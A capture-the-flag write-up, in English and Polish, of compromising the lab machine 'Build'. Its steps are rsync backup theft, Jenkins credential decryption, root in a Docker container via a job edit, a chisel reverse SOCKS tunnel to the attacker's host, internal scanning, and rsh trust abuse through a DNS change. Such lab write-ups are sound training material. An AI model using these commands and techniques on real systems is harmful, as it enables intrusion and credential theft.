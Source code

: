# Build
Linux, Easy, created by **xct**

```
22/tcp   open     ssh             OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
53/udp    open   domain?
512/tcp open  exec    netkit-rsh rexecd
513/tcp open  login?
514/tcp open  shell   Netkit rshd
873/tcp open  rsync   (protocol version 31)
3000/tcp open     ppp?
3306/tcp filtered mysql
8081/tcp filtered blackice-icecap

```

I started with 873
https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync#banner-and-manual-communication

![list](https://github.com/user-attachments/assets/06b1e767-a09a-48e8-b2b3-d9b8830fac67)

![{06106B87-BFCC-48BE-B47C-50CA111F2CD7}](https://github.com/user-attachments/assets/dbb2fc91-8de1-4b8f-b2a6-228835b1fd92)

czekam około 3 minuty

```
rsync -av rsync://10.10.86.18/backups .
```

![{FD7E4963-9E4D-47F7-99E3-CC4E36E6DCAF}](https://github.com/user-attachments/assets/3d393b2a-97a3-4748-8a36-45b6998bcd2c)

![{4DD12C4F-DFAE-4594-B511-E88443B623E2}](https://github.com/user-attachments/assets/baefba4d-c1e3-44bb-996f-d6deb531d3c6)

under `jenkins_configuration/jobs/build/config.xml` we got hash
![jeniks1](https://github.com/user-attachments/assets/4ec50406-3ed2-4567-b2e6-24fb7e8a5ef6)

We also need `master.key` and `hudson.util.Secret`

I used [jenkins-credentials-decryptor](https://github.com/hoto/jenkins-credentials-decryptor) to decrypt the password.

![{79F79128-DBDA-481F-9E6D-4CAA2CD3915B}](https://github.com/user-attachments/assets/65ea9472-7a45-493e-bcc8-c942ef4ede37)

It works!

![{ECB87EC1-51C2-4489-9A03-4E5449BBF0B3}](https://github.com/user-attachments/assets/151feba0-4a68-4e87-b0bf-7a51504385d4)

Duży tych pliczków nie mamy, ale jak znam życie to to nawet prosty hook nie będzie tylko edycja tej komendy.

![{49386F7F-6E9D-484D-8F29-A3D7CA0CD154}](https://github.com/user-attachments/assets/402c23b3-d0aa-4bd4-9432-223d13f4ab6c)

![{8E79EAC7-D09B-48D1-A234-0429DBC7A19D}](https://github.com/user-attachments/assets/d2596929-9da4-4a8c-a34a-f4957f135805)

save and wait ~60-120sek

![{3AB9CB23-8DA5-4A78-8A8B-234B70B73E03}](https://github.com/user-attachments/assets/e157557e-91f7-479d-925d-0297a43c0670)

root na dockerze.

Pobieramy chisel'a

![{9F9C62C5-DE12-490B-9E02-DE00A997A6DD}](https://github.com/user-attachments/assets/6f8316c7-0ffe-4ced-b00d-3383db7f059b)

on docker
```
./chisel client 10.8.4.124:8000 R:socks
```
on my host
```
./chisel server --reverse --port 8000 --socks5
```

run port scan
```
proxychains4 -q nmap -Pn -v 172.18.0.1 172.18.0.2
```

![{D0AA01CD-F486-4054-80BA-8BFE075C334B}](https://github.com/user-attachments/assets/e13aa2e0-4605-498e-bb50-6bf5dc6a807b)


We are able to connect to mysql without password.

![{EADB8D67-8FDB-4F61-A4E7-2F9B3DAEEF08}](https://github.com/user-attachments/assets/436c78f6-cf9f-4aef-a613-dc472c7ae142)

![{3A32DD89-B0BA-4785-B2DB-789E63622A67}](https://github.com/user-attachments/assets/a721e35c-6696-471e-bc3a-b6a51d7bd1aa)

![{83C8F66A-64D2-4DE4-9F26-4A63214A7BEC}](https://github.com/user-attachments/assets/504efd07-ea2d-40fc-a9e1-080db55c0164)

I run cracking and found some interesting IPs

![{A167FC58-CA8B-4773-8B9F-2180B4D17FD4}](https://github.com/user-attachments/assets/89854343-fb7d-4532-a34c-e09f025d3ed5)


![{80D05ECC-88A6-4D5A-9DE5-2B0F8541EF54}](https://github.com/user-attachments/assets/cbdddb18-e3ac-42bb-8e19-44951f2e6eca)

In burp we turn on socks proxy

![{C26FE301-F89A-4C62-BCB8-E303F7DF474E}](https://github.com/user-attachments/assets/1bad48bd-5508-4c83-869a-f55b54940800)

![{5952F5F1-8076-4B57-8D37-AFAC0B86DCF6}](https://github.com/user-attachments/assets/ef70a2cc-2ca6-47ae-8700-2e22725a7ff9)

(ten drugi host jakieś hasło ma)

cracked password works here with username `admin`.

![{8E517551-BB0D-4241-9B07-BF7ED38E7E24}](https://github.com/user-attachments/assets/6cc7a55e-758e-4b44-b8c1-ed74e3986940)

Jak widzimy mamy tutaj dostęp do strefy "build.vl".

![{15248988-F773-4AB7-A054-6068962FED3E}](https://github.com/user-attachments/assets/816e2205-3a76-4db4-bed8-2d004b6a6498)

Z mysqla widzieliśmy kilka innych, ale też w /root z dokerze było coś ciekawego i screenka nie dałem

![{A7C91869-A792-4FDB-8D8E-95568E973BE6}](https://github.com/user-attachments/assets/daedf8b3-c43e-405c-923f-7fe5e664cdda)

To by znaczyło, że RSH client ufa zarówno subdomenkom `intern` jak i `admin`, ale tylko to `intern` jest skonfigurowana. Jedyne co musimy zrobić to zmienić adres IP na nasz

![{043BA9B6-EC13-4A22-8AD2-DF914D55C720}](https://github.com/user-attachments/assets/4beaff6d-888f-4316-91f5-0ea21ced1b45)

![{0096EE3C-B471-4AF5-A448-737FF9E8EDCF}](https://github.com/user-attachments/assets/3b118e0a-c546-4c5c-8817-373bbf944609)

![{23BCD616-91D3-44D2-A55F-664EC04333F1}](https://github.com/user-attachments/assets/db67a336-3996-442b-8e57-cf8e30305bc0)

FINISH
